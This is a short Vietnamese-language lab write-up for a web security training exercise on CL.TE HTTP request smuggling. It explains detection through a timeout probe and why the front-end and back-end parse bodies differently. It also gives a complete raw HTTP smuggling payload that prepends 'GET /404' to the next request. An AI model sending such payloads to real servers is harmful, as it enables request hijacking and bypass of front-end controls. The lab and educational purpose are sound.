

# Lab: HTTP request smuggling, basic CL.TE vulnerability

## Detect

Gửi một request có cả `Content-Length` và `Transfer-Encoding: chunked` để kiểm tra cách front-end và back-end parse body:

```http
POST / HTTP/1.1
Host: LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```



Khi request bị treo hoặc trả về `Timeout`, đó là dấu hiệu mạnh của lỗi CL.TE. Front-end đang đọc theo `Content-Length`, còn back-end lại cố parse theo `Transfer-Encoding`, nên hai bên không đồng ý với nhau về ranh giới body.

## Vì sao có thể smuggle

Trong CL.TE:

- Front-end ưu tiên `Content-Length`.
- Back-end ưu tiên `Transfer-Encoding`.
- Một phần dữ liệu cuối request có thể bị back-end giữ lại và hiểu thành request kế tiếp.

## Exploit

Mẫu attack request điển hình là:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

Giải thích ngắn gọn:

- Front-end chỉ chuyển một phần body theo `Content-Length`.
- Back-end đọc body theo chunked encoding.
- Dòng `GET /404 HTTP/1.1` bị đẩy sang request kế tiếp và trở thành request bị smuggle.

Nếu attack thành công, request bình thường được gửi sau đó sẽ bị back-end ghép với phần dữ liệu dư này.
